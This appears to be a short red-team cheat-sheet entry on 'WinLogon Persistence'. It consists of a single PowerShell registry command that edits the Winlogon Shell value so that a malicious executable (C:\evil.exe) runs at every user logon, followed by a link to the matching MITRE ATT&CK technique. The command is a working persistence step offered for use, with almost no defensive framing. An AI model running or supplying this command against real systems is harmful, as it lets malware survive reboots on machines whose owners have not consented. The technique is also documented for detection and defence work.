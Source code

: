 # WinLogon Persistence

Executing the following command as `Administrator`, the malicious executable will be executed when logon.

```powershell
reg add "HKCU\Software\Microsoft\Windows NT\CurrentVersion\Winlogon" /v "Shell" /t REG_SZ /d "explorer.exe, C:\evil.exe" /f
```

## Resources

- [MITRE ATT&CK](https://attack.mitre.org/techniques/T1547/004/)